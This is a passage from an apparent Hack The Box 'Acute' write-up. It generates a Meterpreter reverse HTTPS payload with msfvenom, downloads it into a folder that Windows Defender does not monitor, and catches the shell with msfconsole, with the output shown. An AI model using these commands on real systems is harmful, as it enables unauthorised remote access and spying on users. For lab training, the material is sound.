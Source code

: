 ## Spying with Metasploit

While our PSWA shell does not give us the necessary tools to spy on this user, we could use a Meterpreter shell and the `screenshare` module. This module allows us to view and control the screen of the target computer via a local browser window. 

First, let's generate a Meterpreter payload. A classic reverse HTTPS executable will do the trick:

```bash
$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.10 LPORT=443 EXITFUNC=thread -f exe -o /var/www/html/rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 636 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/rev_shell.exe
```

Then, using the `curl` command, we can download our payload in the **C:\Utils** folder which is not monitored by Windows Defender. Note that the payload was hosted on the Kali machine using the **apache2** service pre-installed on the box.

![image-center](/images/htb/htb_acute_msf.png){: .align-center}

Finally, we set up a handler on our machine and execute the payload.

```bash
$ sudo msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; run"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_https
LHOST => tun0
LPORT => 443
[*] Started HTTPS reverse handler on https://10.10.14.10:443
[!] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: xqowz95w) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: xqowz95w) Staging x64 payload (201820 bytes) ...
[!] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: xqowz95w) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.10:443 -> 10.129.136.40:49816) at 2023-05-03 09:01:53 -0400

meterpreter > getuid 
Server username: ACUTE\edavies
```
